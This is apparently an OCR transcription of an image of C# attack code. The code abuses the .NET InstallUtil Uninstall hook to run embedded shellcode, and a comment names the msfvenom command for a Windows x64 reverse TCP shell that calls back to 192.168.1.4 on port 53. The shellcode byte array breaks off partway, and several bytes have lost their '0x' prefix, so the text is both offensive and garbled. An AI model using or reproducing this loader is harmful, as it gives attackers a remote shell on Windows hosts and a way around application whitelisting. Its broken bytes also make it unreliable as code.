     using System.Runtime.InteropServices; 
    
    
    // msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐f csharp 
    
    public class Program
    
    {
    
    public static void Main()
    
    { 
    
    }
    
    
    } 
    
    [System.ComponentModel.RunInstaller(true)]
    
    public class Sample : System.Configuration.Install.Installer
    
    { 
    
    public override void Uninstall(System.Collections.IDictionary savedState)
    
    { 
    
    Shellcode.Exec(); 
    
    } 
    
    } 
    
    public class Shellcode
    
    {
    
    public static void Exec()
    
    { 
    
    byte[] shellcode = new byte[510] {
    
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
    
    0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,x48,
    
    0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,xc9,
    
    0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,x41,
    
    0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,x48,
    
    0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,x8b,
    
    0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,x8b,
    
    0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,x41,
    
    0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,xc1,
    
    0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,x45,
    
    0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,x8b,
    